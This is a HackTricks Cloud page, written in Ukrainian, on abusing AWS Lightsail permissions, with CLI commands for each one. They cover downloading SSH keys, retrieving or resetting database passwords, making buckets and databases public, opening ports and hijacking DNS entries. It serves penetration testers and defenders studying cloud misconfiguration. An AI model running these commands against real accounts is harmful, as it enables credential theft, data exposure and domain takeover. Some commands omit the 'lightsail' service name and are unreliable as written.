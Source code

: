 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Для отримання додаткової інформації про Lightsail перегляньте:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Важливо зазначити, що Lightsail **не використовує IAM ролі, що належать користувачу**, а належать керованому обліковому запису AWS, тому ви не можете зловживати цією службою для підвищення привілеїв. Однак, **чутливі дані**, такі як код, API ключі та інформація про базу даних, можуть бути знайдені в цій службі.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ця дозволена дія дозволить вам отримати SSH ключі для доступу до інстансів:
```
aws lightsail download-default-key-pair
```
**Потенційний вплив:** Знайти чутливу інформацію всередині інстансів.

### `lightsail:GetInstanceAccessDetails`

Ця дозволена дія дозволить вам генерувати SSH-ключі для доступу до інстансів:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині екземплярів.

### `lightsail:CreateBucketAccessKey`

Ця дозволена дія дозволить вам отримати ключ для доступу до кошика:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині бакету.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ця дозволена дія дозволить вам отримати облікові дані для доступу до бази даних:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:UpdateRelationalDatabase`

Ця дозволена дія дозволить вам змінити пароль для доступу до бази даних:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Якщо база даних не є публічною, ви також можете зробити її публічною з цими дозволами за допомогою

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:OpenInstancePublicPorts`

Ця дозволяє відкривати порти для Інтернету.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:PutInstancePublicPorts`

Ця дозволяє відкривати порти для Інтернету. Зверніть увагу, що виклик закриє будь-який порт, який не вказаний у ньому.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:SetResourceAccessForBucket`

Ця дозволяє надати екземплярам доступ до кошика без додаткових облікових даних

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateBucket`

З цією дозволом зловмисник може надати своєму обліковому запису AWS доступ на читання до бакетів або навіть зробити бакети публічними для всіх:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateContainerService`

З цими правами зловмисник може надати доступ до приватних ECR з сервісу контейнерів.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Потенційний вплив:** Отримати чутливу інформацію з приватного ECR

### `lightsail:CreateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (взяття піддомену під контроль), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть встановити основний домен на свою власну IP-адресу.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

### `lightsail:UpdateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (захоплення піддомену), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть встановити основний домен на свою власну IP-адресу.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
